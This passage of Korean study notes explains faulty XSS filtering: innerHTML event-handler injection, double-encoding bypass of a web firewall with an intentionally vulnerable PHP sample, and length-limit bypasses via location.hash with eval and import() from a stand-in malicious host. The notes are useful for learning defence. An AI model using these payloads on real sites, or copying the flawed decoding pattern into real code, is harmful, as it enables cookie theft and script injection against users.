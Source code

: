                 // <body> 태그를 추가함 (onload 이벤트 핸들러를 이용해 자바스크립트 코드를 실행시키고 있음)
                document.body.innerHTML += "<body src-=x: onload=alert&#40;1&#41;>";
                ```
            + ⚠️ **주의**: ```innerHTML```로 코드를 삽입할 때 보안 상의 이유로 ```<script>``` 태그는 실행되지 않음 → **이벤트 핸들러 속성을 이용해 자바스크립트 코드를 실행해야 함**


<br/>

### 잘못된 방식의 XSS 필터링 5: 디코딩 전 필터링
* 📌 **입력 검증은 디코딩 등의 모든 전처리 작업을 마치고 수행해야 함** *(= 검증이 끝난 데이터를 디코딩하여 사용해서는 안 됨)*
    - 애플리케이션이 웹 방화벽이 검증한 데이터를 받아 작업을 수행할 때 전달받은 데이터를 다시 디코딩해서 사용할 경우 공격자가 **더블 인코딩(Double Encoding)**으로 웹 방화벽의 검증을 쉽게 우회할 수 있음
        + 예사: 공격자(Attacker)가 게시글에 공격 코드 ```<script>...```를 포함해서 게시판에 올리고, 희생자(Victim)가 해당 글을 읽는 시나리오
            1. 공격자가 더블 URL 인코딩한 공격 코드 ```%253Cscript%2532...```를 포함하여 게시글 업로드를 요청함
            2. 웹 방화벽이 해당 데이터를 디코딩 후 검증함
                - 디코딩한 결과: ```%3Cscript%3E...``` → 안전하다고 판단해 차단하지 않고 애플리케이션에 전달함
            3. [**검증 후 디코딩 발생 시점**] 애플리케이션이 해당 데이터를 다시 디코딩하여 ```<script>...```를 게시판 DB에 저장함
            4. 희생자가 해당 게시글을 조회하면 XSS가 발생 → 악성 자바스크립트 코드가 실행됨
    - 웹 방화벽은 물론 애플리케이션 내부의 검증 로직 이후에도 디코딩해서는 안 됨
        + 예시: php 애플리케이션 코드에 더블 디코딩(Double Decoding) 취약점이 존재하여 더블 URL 인코딩으로 검증을 우회함
            ```php
            <?php
                $query = $_GET["query"];
                if (stripos($query, "<script>") != FALSE) { // stripos(): 대상 문자열을 앞에서부터 검색해 찾고자 하는 문자열이 몇 번째 위치에 있는지 반환함
                    header("HTTP/1.1 403 Forbidden");
                    die("XSS attempt detected: " . htmlspeicalchars($query, ENT_QUOTES|ENT_HTML5, "UTF-8")); # htmlspecialchars(): 특수 문자를 엔티티로 변환
                }
                // ...
                $searchQuery = urlencoded($_GET["query"]);
            ?>
            <h1>Search results for: <?php echo $searchQuery; ?></h1>
            ```

* 더블 인코딩(Double Encoding)과 더블 디코딩(Double Decoding)
    - 📚 [더블 인코딩(Double Encoding)](https://owasp.org/www-community/Double_Encoding)
        + 보안 제어를 우회하거나 응용 프로그램에서 예기치 않은 동작을 유발하기 위해 사용자 요청 매개 변수를 16진수 형식(hexadecimal format)으로 **두 번 인코딩**하는 것
        + 사용자 입력을 한 번 디코딩(Decoding)하는 보안 필터링을 우회할 수 있음
            - 두 번째 디코딩 과정은 애플리케이션 내에서 인코딩된 데이터를 적절하게 처리하지만, **보안 검사가 없기** 때문에 해당 데이터가 백엔드 플랫폼 또는 모듈에 그대로 넘겨지게 됨
            - 공격자는 웹 애플리케이션에서 사용 중인 인증 스키마(authentication schema) 및 보안 필터(security filters)를 우회하기 위해 경로 이름 또는 쿼리 문자열에 더블 인코딩을 삽입할 수 있음
    - 📚 [더블 디코딩(Double Decoding)](https://cwe.mitre.org/data/definitions/174.html) *- CWE-174 참고*
        + 동일한 입력을 두 번 디코딩(decoding)하여 디코딩 작업 사이에 발생하는 보호 메커니즘의 효율성을 제한하는 것

<br/>

### 잘못된 방식의 XSS 필터링 6: 길이 제한
* 삽입할 수 있는 코드의 길이가 제한되어 있는 경우 다른 경로로 실행할 추가적인 코드(payload)를 URL Fragment 등으로 삽입 후 삽입 지점에는 **본 코드를 실행하는 짧은 코드**(launcher)를 사용할 수 있음
    - [우회 방법 1] ```location.hash```를 이용한 공격 방법
        - Fragment로 스크립트를 넘겨준 후 XSS 지점에서 ```location.hash```로 URL의 Fragment 부분을 추출하여 ```eval()```로 실행함
            ```
            https://exapmple.com/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie);
            ```
    - [우회 방법 2] ```import```와 같은 외부 자원을 스크립트로 로드하여 공격하는 방법
        ```javascript
        // [1] import() 메서드를 통해 외부 자원을 스크립트로 로드함
        import("http://malice.sample.com");
